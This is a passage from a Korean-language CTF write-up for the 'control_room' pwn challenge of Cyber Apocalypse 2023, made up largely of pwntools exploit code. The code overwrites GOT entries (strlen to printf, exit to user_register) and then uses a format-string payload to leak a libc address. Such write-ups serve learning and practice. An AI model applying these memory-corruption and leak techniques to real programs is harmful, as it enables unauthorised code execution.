 ```python

write(printf_plt,"-", strlen_offset)# strlen -> printf
write(e.symbols['user_register'],"-",-7)#exit -> user_register

p.interactive()
```

![image](/assets/images/Cyber Apocalypse 2023 - The Cursed Mission/control_room/control_room7.png)

성공적으로 `overwrite`가 완료되어, `FSB`가 먹히는 것을 확인할 수 있다.

```python
#libc_leak.py
from pwn import *

def slog(k, v): return success(f" : ".join([k, hex(v)]))

p = process('./control_room_patched')
e = ELF('./control_room_patched')
libc = ELF('./libc.so.6')

def write(n1,n2,off):
    sleep(0.1)
    p.sendline(b"1")
    p.sendlineafter(b'number [0-3]: ',str(off).encode())
    p.sendlineafter(b'Thrust: ',str(n1).encode())
    p.sendlineafter(b'atio: ',str(n2).encode())
    p.sendlineafter(b'(y/n) \n',b"y")

context.log_level="debug"

payload = b'A' * 0x100
p.sendlineafter(b'Enter a username: ', payload)
p.sendlineafter(b'size: ', b'256')
payload = b'A'*0x9F
p.sendlineafter(b'username: ', payload)

main = e.symbols['main']
strlen_plt = 0x000000000405040

engines = e.symbols['engines']
printf_plt = e.plt['printf']
slog("engines", engines)
slog("main", main)
slog("printf_plt", printf_plt)
slog("strlen_plt", strlen_plt)
strlen_offset = -(engines - strlen_plt) // 0x10
 
p.sendline(b"5")
p.sendlineafter(b'role: ',b"1")

write(printf_plt,"-", strlen_offset)# strlen -> printf
write(e.symbols['user_register'],"-",-7)#exit -> user_register

p.sendline(b'q')
payload = f'%{71}$p'
p.sendlineafter(b'username: ', payload.encode())

p.recvuntil(b"0x")
ret_addr = int("0x"+p.recvn(12).decode(), 16)
slog("leak", ret_addr)  
lb = ret_addr - (libc.symbols['__libc_start_main']+128)
slog("lb", lb)

```